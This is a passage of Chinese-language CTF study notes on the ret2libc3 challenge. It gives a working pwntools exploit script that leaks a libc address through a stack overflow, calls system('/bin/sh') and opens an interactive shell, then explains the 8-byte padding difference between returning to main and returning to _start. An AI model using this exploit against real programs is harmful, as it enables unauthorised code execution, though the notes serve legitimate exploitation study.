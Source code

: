 和另外一个，可以看一下区别：

```python
from pwn import *
from LibcSearcher import *

elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']

#gdb.attach(p)
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))

libc=LibcSearcher('puts',puts_addr)
libcbase=puts_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")

payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendlineafter("!?",payload2)

p.interactive()
```

首先两个`exp`基本都是这样一种思路：因为程序内部有`puts`函数，所以我们通过栈溢出来让该函数打印出某个已经使用过的函数在`libc`中的地址，从而通过相对地址来得到`system`函数，并设置返回地址为`main`函数或者`start`函数，来再次通过栈溢出到`system`函数来进行攻击。

然而，可以看到，两个`exp`在第二次栈溢出时填充的字符的长度是不相等的，相差8个字符长度。这里写下原因，因为第一个`exp`的第一次栈溢出是回到了`main`，第二个`exp`的第一次栈溢出是回到了`start`函数。

我们知道函数调用的顺序是：`start()`->`main()`->`其他函数()`

因此若回到`start()`函数，程序会再次调用`main()`函数，从而调用其他函数；

若回到`main()`函数，程序将直接调用其他函数。

两者相差一个`main()`函数的`return address `和`ebp`，因此刚好差8个字节。



此外，使用本地的`libc`：

```python
libc = ELF('./libc-2.19.so')
libcbase = write_libc - libc.symbols['write']
system_libc = libcbase + libc.symbols['system']
bin_sh_libc = libcbase + next(libc.search(b'/bin/sh'))
```



**也可以使用`libc`里面的`gadgets`。**

# ret2csu
